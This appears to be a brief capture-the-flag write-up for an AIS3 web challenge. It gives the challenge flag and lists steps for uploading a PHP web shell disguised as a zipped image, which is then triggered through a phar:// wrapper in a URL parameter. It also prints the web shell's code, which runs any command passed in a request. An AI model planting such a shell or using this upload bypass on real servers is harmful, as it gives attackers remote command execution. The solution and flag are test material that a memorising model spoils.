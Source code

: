 ### AIS3{RCEEEEEEEEE_is_soooooooooo_funnnnnnnnnnnn!?!!?!!!} 

* shell.php
* zip > shell.php.zip
* rename > shell.jpg
* upload


* https://quiz.ais3.org:23545/?p=phar://./images/60.251.236.13/ayl9FkEjE.jpg/shell&cmd=

```php
<?php
    echo 'yuawn';
    echo passthru( $_REQUEST['cmd'] );
?>
```